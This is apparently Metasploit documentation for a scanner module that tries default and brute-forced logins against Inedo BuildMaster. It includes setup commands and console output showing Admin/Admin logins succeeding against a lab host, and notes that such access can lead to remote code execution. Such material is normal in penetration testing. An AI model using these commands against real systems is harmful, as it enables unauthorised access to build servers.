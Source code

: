 ## Description

This module allows you to authenticate to Inedo BuildMaster, an application release automation tool.
The default credentials for BuildMaster are Admin/Admin. Gaining privileged access to BuildMaster can lead to remote code execution.

## Vulnerable Application

[Inedo's Windows installation guide](http://inedo.com/support/documentation/buildmaster/installation/windows-guide)

[Inedo website](http://inedo.com/)

## Verification Steps

1. Do: ```use auxiliary/scanner/http/buildmaster_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: Set credentials
5. Do: ```run```
6. You should see the module attempting to log in.

## Scenarios

### Attempt to login with the default credentials.

```
msf > use auxiliary/scanner/http/buildmaster_login
msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.39
RHOSTS => 10.0.0.39
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.39:81          - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.39:81          - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.39:81          - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) >
```

### Brute force with credentials from file.

```
msf > use auxiliary/scanner/http/buildmaster_login 
msf auxiliary(buildmaster_login) > set RHOSTS 10.0.0.39
RHOSTS => 10.0.0.39
msf auxiliary(buildmaster_login) > set USERPASS_FILE ~/BuildMasterCreds.txt
USERPASS_FILE => ~/BuildMasterCreds.txt
msf auxiliary(buildmaster_login) > run

[+] 10.0.0.39:81          - Identified BuildMaster 5.7.3 (Build 1)
[*] 10.0.0.39:81          - Trying username:"Admin" with password:"test"
[-] FAILED LOGIN - 10.0.0.39:81          - "Admin":"test"
[*] 10.0.0.39:81          - Trying username:"Admin" with password:"wrong"
[-] FAILED LOGIN - 10.0.0.39:81          - "Admin":"wrong"
[*] 10.0.0.39:81          - Trying username:"Admin" with password:"Admin"
[+] SUCCESSFUL LOGIN - 10.0.0.39:81          - "Admin":"Admin"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(buildmaster_login) > 
```
